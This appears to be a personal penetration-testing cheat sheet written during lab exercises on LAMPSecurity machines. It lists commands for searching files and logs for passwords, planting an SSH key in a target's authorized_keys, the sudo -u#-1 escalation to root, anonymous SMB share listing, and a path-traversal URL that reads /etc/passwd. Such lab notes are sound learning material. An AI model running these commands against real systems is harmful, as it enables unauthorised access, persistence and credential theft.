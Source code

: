 # interesting commands

```
echo LinEnum.sh | base64 |xclip -selection clipboard
grep -R password file_name
grep password . -B1 : get also the element before.
grep passwd /var/log/auth.log : permet de savoir la date de changement des mots de pass

```
if in the target system there is .ssh folder,I can generate my pub,priv key with **keygen -f name** and copy my public key and paste it inside .ssh (authorized_keys) ====>>> then I can connect with my private key: **ssh -i privkey user@targetip**.

```
scp -i privatekey user@targetip:/home/user.txt . : transfert user.txt to my local directory
```
## sudo abusing
```
vi visudo : to open the file listed with sudo -l
if in the file there is: user  ALL=(ALL,!root) ALL
I can run any commande with root priviledge like this: sudo -u#-1 /bin/bash  => BOOM,root access
ALso: user  ALL=(ALL,!abdo) ALL, I can have root access: sudo -u#-1 /bin/bash
bug fixed in 1.8.28  => get your current version $ sudo -V
```
#### LAMPSecurity-4
what I had learn from this machine is:
```
authenticity with private key with ssh : copy my public key to .ssh/authorized_key 
id => cat /etc/group, find / -group grp_name -type f 2>/dev/null
```
#### LAMPSecurity-5
what I had learn from this machine is:
```
smbclient --list //10.0.4.13/ -U "" : list the shared folders
smbclient //10.0.4.13/folder/ -U "" : get in 
grep -Ri password /home/*   : 
searchsploit linux kernel 2.6 : deux chiffre
ls /etc | grep release : know the distribution of the OS
https://10.0.4.13/?page=/../../../etc/passwd%00
```
